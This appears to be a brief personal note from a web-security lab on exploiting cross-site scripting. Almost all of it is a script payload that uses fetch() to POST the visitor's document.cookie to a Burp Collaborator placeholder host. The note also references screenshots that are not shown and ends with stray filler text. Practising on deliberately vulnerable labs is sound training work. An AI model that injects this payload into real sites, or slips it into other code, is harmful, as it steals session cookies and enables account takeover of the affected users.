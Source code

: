 # Exploiting cross-site scripting to steal cookies

```sql
<script>
fetch('[https://BURP-COLLABORATOR-SUBDOMAIN](https://burp-collaborator-subdomain/)', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

![Untitled](Exploiting%20cross-site%20scripting%20to%20steal%20cookies%2012cfab5460ec80a5931dd8f0a7e81728/Untitled.png)

![Untitled](Exploiting%20cross-site%20scripting%20to%20steal%20cookies%2012cfab5460ec80a5931dd8f0a7e81728/Untitled%201.png)

dfdsfsd